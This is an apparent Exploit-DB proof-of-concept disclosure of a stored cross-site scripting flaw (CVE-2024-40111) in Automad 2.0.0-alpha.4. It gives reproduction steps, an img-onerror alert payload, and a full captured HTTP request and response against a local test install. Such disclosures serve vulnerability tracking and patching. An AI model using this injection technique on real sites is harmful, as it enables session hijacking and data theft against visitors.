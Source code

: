 # Exploit Title: Stored Cross-Site Scripting (XSS) - Automad 2.0.0-alpha.4
# Date: 20-06-2024
# CVE: CVE-2024-40111
# EDB-ID: [52056](https://www.exploit-db.com/exploits/52056)
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://automad.org
# Software Link: https://github.com/marcantondahmen/automad
# Category: Web Application [Flat File CMS]
# Version: 2.0.0-alpha.4
# Tested on: Docker version 26.1.4, build 5650f9b | Debian GNU/Linux 11 (bullseye)

# Description

A persistent (stored) cross-site scripting (XSS) vulnerability has been identified in Automad 2.0.0-alpha.4. This vulnerability enables an attacker to inject malicious JavaScript code into the template body. The injected code is stored within the flat file CMS and is executed in the browser of any user visiting the forum. This can result in session hijacking, data theft, and other malicious activities.

# Proof-of-Concept

**Step-1**: Login as Admin & Navigate to the endpoint http://localhost/dashboard/home

**Step-2**: There will be a default Welcome page. You will find an option to edit it.

**Step-3:** Navigate to Content tab or http://localhost/dashboard/page?url=%2F&section=text & edit the block named ***`Main`***

**Step-4:** Enter the XSS Payload - `<img src=x onerror=alert(1)>`

***Request:***  
```
POST /_api/page/data HTTP/1.1
Host: localhost
Content-Length: 1822
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzHmXQBdtZsTYQYCv
Accept: */*
Origin: http://localhost
Referer: http://localhost/dashboard/page?url=%2F&section=text
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: Automad-8c069df52082beee3c95ca17836fb8e2=d6ef49301b4eb159fbcb392e5137f6cb
Connection: close

------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__csrf__"

49d68bc08cca715368404d03c6f45257b3c0514c7cdf695b3e23b0a4476a4ac1
------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__json__"

{"data":{"title":"Welcome","+hero":{"blocks":[{"id":"KodzL-KvSZcRyOjlQDYW9Md2rGNtOUph","type":"paragraph","data":{"text":"Testing for xss","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"bO_fxLKL1LLlgtKCSV_wp2sJQkXAsda8","type":"paragraph","data":{"text":"&lt;h1&gt;XSS identified by Jerry&lt;/h1&gt;","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"},"+main":{"blocks":[{"id":"lD9sUJki6gn463oRwjcY_ICq5oQPYZVP","type":"paragraph","data":{"text":"You have successfully installed Automad 2.<br><br>&lt;img src=x onerror=alert(1)&gt;<br>","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"NR_n3XqFF94kfN0jka5XGbi_-TBEf9ot","type":"buttons","data":{"primaryText":"Visit Dashboard","primaryLink":"/dashboard","primaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingVertical":"0.5rem","paddingHorizontal":"1.5rem"},"primaryOpenInNewTab":false,"secondaryText":"","secondaryLink":"","secondaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingHorizontal":"1.5rem","paddingVertical":"0.5rem"},"secondaryOpenInNewTab":true,"justify":"start","gap":"1rem"},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"}},"theme_template":"project","dataFetchTime":"1718911139","url":"/"}
------WebKitFormBoundaryzHmXQBdtZsTYQYCv--
```
***Response:***  

```
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Thu, 20 Jun 2024 19:17:35 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/8.3.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30`

{"code":200,"time":1718911055}
```

**Step-5:** XSS triggers when you go to homepage - http://localhost/


# Video Poc
``` 
Link - https://drive.google.com/file/d/10BVQKYo2H1-Nx3FOGteL2xww4lbZ3xlS/view?usp=sharing
```
